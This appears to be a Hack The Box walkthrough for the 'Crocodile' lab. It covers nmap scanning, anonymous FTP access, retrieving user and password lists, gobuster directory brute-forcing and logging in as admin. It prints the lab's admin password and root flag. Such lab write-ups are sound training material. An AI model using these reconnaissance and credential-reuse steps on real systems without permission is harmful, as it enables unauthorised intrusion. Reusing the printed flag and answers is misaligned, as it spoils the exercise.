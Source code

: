 ```yaml
---
title: "[HTB] Crocodile"
author: "Wook Lee"
date: "2024-07-13"
tags: ["Hack The Box"]
---
```


#### What Nmap scanning switch employs the use of default scripts during a scan?

```
-sC
```

<br>

#### What service version is found to be running on port 21?

```
vsftpd 3.0.3
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.129.60.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-13 00:54 EDT
Nmap scan report for 10.129.60.250
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.28
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.08 seconds
```

<br>

#### What FTP code is returned to us for the "Anonymous FTP login allowed message?"

```
230
```

![alt text](image.png#center)

<br>

#### After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?

```
anonymous
```

![alt text](image-1.png#center)

<br>

#### After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?

```
get
```

![alt text](image-2.png#center)

<br>

#### What is one of the higher-privilege sounding usernames in `allowed.userlist` that we download from the FTP server?

```
admin
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ ls
allowed.userlist  allowed.userlist.passwd  hash-id.py  ntlm_1605054722641.txt  openvpn  pico

┌──(kali㉿kali)-[~/Desktop]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
```

<br>

#### What version of Apache HTTP Server is running on the target host?

```
Apache httpd 2.4.41
```

![alt text](image-3.png#center)

<br>

#### What switch can we use with Gobuster to specify we are looking for specific filetypes?

```
-x
```

`gobuster dir --help` revealed the `-x` option.

![alt text](image-4.png#center)

<br>

#### Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?

```
login.php
```

The following command revealed PHP files with dirbuster on the target host.
`gobuster dir -u http://10.129.60.250 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`

`-u`: url

`-w`: wordlist

`-x`: file types to look for

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.129.60.250 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.129.60.250
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: php
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php (Status: 403) [Size: 278]
/login.php (Status: 200) [Size: 1577]
/assets (Status: 301) [Size: 315] [--> http://10.129.60.250/assets/]
/css (Status: 301) [Size: 312] [--> http://10.129.60.250/css/]
/js (Status: 301) [Size: 311] [--> http://10.129.60.250/js/]
/logout.php (Status: 302) [Size: 0] [--> login.php]
/config.php (Status: 200) [Size: 0]
/fonts (Status: 301) [Size: 314] [--> http://10.129.60.250/fonts/]
/dashboard (Status: 301) [Size: 318] [--> http://10.129.60.250/dashboard/]
```

<br>

#### Submit root flag

```
c7110277ac44d78b6a9fff2232434d16
```

From the earlier task, we downloaded two files from the ftp server:

1. **_allowed.userlist_**
2. **_allowed.userlist.passwd_**

and we confirmed there was the username, `admin`. As you can see from the passwd file, the password for `admin` is `rKXM59ESxesUFHAd`.

![alt text](image-6.png#center)

![alt text](image-7.png#center)

<br>

From the gobuster output, we revealed there was `/login.php` page, so I navigated to the page and entered the credentials we had found from the ftp server and finally found the flag.

![alt text](image-5.png#center)

![alt text](image-8.png#center)

<br>

![alt text](image-9.png#center)
